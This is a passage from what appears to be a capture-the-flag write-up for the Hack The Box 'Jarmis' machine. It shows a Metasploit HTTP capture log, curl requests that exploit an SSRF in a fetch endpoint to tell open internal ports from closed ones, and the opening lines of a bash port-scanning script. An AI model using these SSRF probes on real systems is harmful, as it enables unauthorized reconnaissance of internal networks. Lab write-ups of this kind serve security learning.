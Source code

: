 ```
}
```
- Metasploit log:
```
msf6 auxiliary(server/capture/http) > 
[*] Started service listener on 0.0.0.0:443 
[*] Server started.
[*] HTTP REQUEST 10.10.11.117 > 10.10.14.18:80 GET / Unknown   cookies=
```
### Testing with SSRF
- After a while, I tested the fetch endpoint for SSRF and there is SSRF to local host
- I can determine the open ports within the internal network with this vulnerability. The responses differ between open and closed, For an example
- **Open Port:**
```
❯ curl 'http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:22' -H 'accept: application/json' | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   117  100   117    0     0    128      0 --:--:-- --:--:-- --:--:--   128
{
  "sig": "00000000000000000000000000000000000000000000000000000000000000",
  "endpoint": "127.0.0.1:22",
  "note": "localhost"
}

```
- **Open Port:**
```
❯ curl 'http://10.10.11.117/api/v1/fetch?endpoint=http%3A%2F%2Flocalhost:80' -H 'accept: application/json' | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   117  100   117    0     0    187      0 --:--:-- --:--:-- --:--:--   187
{
  "sig": "00000000000000000000000000000000000000000000000000000000000000",
  "endpoint": "127.0.0.1:80",
  "note": "localhost"
}

```
- **Closed Port**
```
❯ curl 'http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:21' -H 'accept: application/json' | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   109  100   109    0     0    110      0 --:--:-- --:--:-- --:--:--   110
{
  "sig": "00000000000000000000000000000000000000000000000000000000000000",
  "endpoint": "null",
  "note": "localhost"
}
```
- As you can see if the port is open it includes `127.0.0.1` in the response else it gives the value `null`
{{< alert >}}  To automate this I could use bash script but it would be slower, So **choosing the script below is not recommended** {{< /alert >}}
```bash
#!/bin/bash

BASE_URL="http://jarmis.htb/api/v1/fetch"

START_PORT=1
```